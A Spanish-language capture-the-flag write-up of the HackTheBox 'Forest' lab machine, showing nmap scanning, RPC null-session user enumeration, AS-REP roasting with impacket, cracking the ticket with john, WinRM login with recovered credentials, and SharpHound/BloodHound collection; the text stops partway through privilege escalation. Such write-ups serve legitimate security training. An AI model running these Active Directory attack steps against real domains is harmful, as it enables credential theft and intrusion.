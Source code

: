 #  FOREST MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.161 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.161 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/3.png)

## EXPLOTACION

nos estamos enfrentando a un active directory ya que el servicio de kerberos (88)  esta abierto, vamos a empezar con la enumeracion del protocolo RPC (135) ya que esta abierto:

podemos probar la sesion nula con la herramienta **rpcclient**:

```bash
rpcclient 10.10.10.161 -N -U ""
```

nos deja conectarnos pero a veces esto es un falso positivo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/4.png)

para ver si en realidad la sesion nula es permitida debemos intentar enumerar algo y ver si nos muestra lo que queremos o un **permission denied**, vamos a enumerar usuarios del dominio:

```bash
enumdomusers
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/5.png)

vemos informacion por lo que la sesion nula si estaba permitida, otra forma de enumerar usuarios podia ser con **enum4linux** ya que el puerto 139 esta abierto:

```bash
enum4linux -a 10.10.10.161
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/6.png)

ya con usuarios podemos probar el ataque **AS_REP_ROAST**, para ello vamos a filtrar solo los nombres de la enumeracion y colocarlo en un archivo:

```bash
rpcclient 10.10.10.161 -N -U "" -c "enumdomusers" >users.txt

cat users.txt | grep -oP "\[.*?\]" | tr -d "[]" | grep -v "^0x" > users

rmk users.txt
```

vamos a usar el script de impacket **GetNPUsers.py** y le pasamos el archivo **users**

```bash
python3 /opt/impacket/examples/GetNPUsers.py htb.local/ -no-pass -usersfile users
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/7.png)

y vemos que hay un usuario vulnerable y obtuvimos su ticket de kerberos, ahora vamos a ver si podemos crackearlo, para ello copiamos ese ticket en un archivo y usamos john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ticket
```

y vemos que tenemos unas credenciales:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/8.png)


|usuario|contraseña|
|:----:|:----:|
|svc-alfresco|s3rvice|

el dominiio es **htb.local** asi que es mejor si lo agregamos al **/etc/host**

ahora el puerto 5985 tambien estaba abierto, usemos **evil-winrm** para conectarnos:

comprobar que esta abierto:

```bash
cme winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' -e .
```

estamos dentro y podemos ver la primera flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/9.png)

## ELEVACION DE PRIVILEGIOS

vamos a user **bloodhound** para ver como escalar privilegios

debemos instalar neo4j y bloodhound por si no lo tenemos:

```bash
apt install neo4j

apt update

apt install bloodhound
```

si es la primera vez que se inicia el servicio de **neo4j** lo levantamos con:

```bash
neo4j console
```

nos levantara un servicio en **http://localhost:7474/browser/** y nos autenticamos con las credenciales por defecto **neo4j:neo4j**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/10.png)

nos pedira cambio de contraseña y ai ponemos lo que nos de la gana y nos acordemos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/11.png)

ahora nos iniciamos el bloodhound:

```bash
bloodhound --nosandbox &> /dev/null &
disown
```

y colocamos las credenciales que nos pidio actualizacion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/12.png)

ahora necesitamos proporcianarle a **bloodhound** informacion que la tenemos que recolectar con [sharphound.ps1](https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1)

nos lo descargamos y nos lo pasamos por **evil-winrm**.

```bash
upload SharpHound.ps1
```

 lo importamos e invocamos:
 
```bash
Import-Module "C:/Users/svc-alfresco/Documents/SharpHound.ps1"

Invoke-BloodHound -CollectionMethod All
```

esto generara un archivo **.zip** que debemos importalo en el **bloodhound**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/FOREST/images/13.png)

lo descargamos por **evil-winrm**:

```bash
download 20211117181831_BloodHound.zip
```

ahora lo importamos en el bloodhound


